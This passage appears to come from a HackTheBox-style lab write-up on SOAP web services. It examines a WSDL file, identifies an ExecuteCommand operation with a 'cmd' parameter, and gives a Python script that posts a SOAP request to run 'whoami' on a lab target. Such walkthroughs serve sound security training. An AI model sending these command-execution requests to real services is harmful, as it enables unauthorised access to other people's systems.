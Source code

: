 ```shell-session
 
 
 <wsdl:service name="HacktheboxService">
 
 
 <wsdl:port name="HacktheboxServiceSoapPort" binding="tns:HacktheboxServiceSoapBinding">
 <soap:address location="http://localhost:80/wsdl"/>
 </wsdl:port>
 
 
 </wsdl:service>
 
 
 
 
 
</wsdl:definitions>
```

The first thing to pay attention to is the following.


```xml
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
```

We can see a SOAPAction operation called _ExecuteCommand_.

Let us take a look at the parameters.


```xml
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
```

We notice that there is a _cmd_ parameter. Let us build a Python script to issue requests (save it as`client.py`). Note that the below script will try to have the SOAP service execute a`whoami` command.

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
